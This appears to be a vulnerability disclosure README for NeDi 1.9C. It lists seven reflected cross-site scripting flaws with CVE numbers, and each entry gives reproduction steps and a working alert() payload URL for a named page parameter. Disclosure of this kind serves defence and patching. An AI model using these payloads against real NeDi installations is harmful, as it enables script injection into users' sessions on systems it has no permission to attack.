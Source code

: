 # NeDi-1.9C-Multiple-CVEs

##Multiple Cross-Site Script Vulnerabilities found in NeDi 1.9C version.

**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Topology-Map.php" page on "xo" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Topology-Map.php"``` page.
3. Add 'xo' parameter at the end of the URL.
   Example:- ```https://ip/Topology-Map.php?xo=<img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15028**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Assets-Management.php" page on "sn" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Assets-Management.php"``` page.
3. Add 'sn' parameter at the end of the URL.
   Example:- ```https://ip/Assets-Management.php?st=10&sn="><img src=x onerror=alert(document.domain)>&an=&ty=&cl=&lo=&co=&ps=&pc=&pn=&pt=&ew=&es=&el=&ms=0&mp=&sl=&md=&mc=&sm=&em=&com=&lst=&val=&add=Add```

**Reference: CVE-2020-15029**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Topology-Routes.php" page on "rtr" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Topology-Routes.php"``` page.
3. Add 'rtr' parameter at the end of the URL.
   Example:- ```https://ip/Topology-Routes.php?rtr=<img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15030**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Assets-Management.php" page on "chg" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Assets-Management.php"``` page.
3. Add 'chg' parameter at the end of the URL.
   Example:- ```https://ip/Assets-Management.php?chg=<img src=a onerror=alert(document.domain)>```

**Reference: CVE-2020-15031**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Monitoring-Incidents.php" page on "id" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Monitoring-Incidents.php"``` page.
3. Add 'id' parameter at the end of the URL.
   Example:- ```https://ip/Monitoring-Incidents.php?id="><img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15032**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "snmpget.php" page on "ip" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/snmpget.php"``` page.
3. Add 'ip' parameter at the end of the URL.
   Example:- ```https://ip/snmpget.php?ip="><img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15033**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Monitoring-Setup.php" page on "tet" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Monitoring-Setup.php"``` page.
3. Add 'tet' parameter at the end of the URL.
   Example:- ```https://ip/Monitoring-Setup.php?tet=<img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15034**
